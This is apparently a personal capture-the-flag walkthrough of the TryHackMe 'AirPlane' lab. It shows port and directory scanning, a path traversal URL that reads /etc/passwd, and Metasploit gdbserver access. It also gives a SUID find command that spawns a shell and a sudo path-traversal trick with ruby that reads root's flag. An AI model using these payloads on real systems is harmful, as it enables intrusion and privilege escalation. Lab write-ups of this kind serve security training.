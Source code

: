 <code>
  
https://tryhackme.com/r/room/airplane  

### Service Enumeration
┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ nmap  -sV -p- -Pn 10.10.128.237
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 03:08 CDT
Nmap scan report for 10.10.128.237
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
6048/tcp open  x11?
8000/tcp open  http-alt Werkzeug/3.0.2 Python/3.8.10

http://airplane.thm:8000/?page=index.html

┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://airplane.thm:8000 -x php,txt,html -k
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://airplane.thm:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
2024/06/13 03:20:15 Starting gobuster in directory enumeration mode
/airplane             (Status: 200) [Size: 655]

### Found Path Traversal 
`http://airplane.thm:8000/?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`

carlos:x:1000: nothing
hudson:x:1001: get some files from home folder

### Initial Access
I found out that there is an exploit available for gdbserver, so I used the Metasploit exploit multi/gdb/gdb_server_exec. and fill all required options.

get shell as Hudson

run linpeas and

### Priv Esc
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
-rwsr-xr-x 1 carlos carlos 313K Feb 18  2020 /usr/bin/find     


hudson@airplane:/$` ./usr/bin/find . -exec /bin/sh -p \; -quit`
$ id
uid=1001(hudson) gid=1001(hudson) euid=1000(carlos) groups=1001(hudson)

Have access to hudson home folder create own ssh key get full ssh access as **carlos**

### Priv Esc to root

carlos@airplane:/usr/bin$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    `(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb`

**Folders /Root  and /usr/bin/ruby are ofcorse locked for write**
 
 ### Wildcard Exploiting

carlos@airplane:**/home/carlos/**$ echo "puts File.read('/root/root.txt')" > x.rb

carlos@airplane:$ sudo /usr/bin/ruby **/root/../home/carlos/x.rb**


</code>

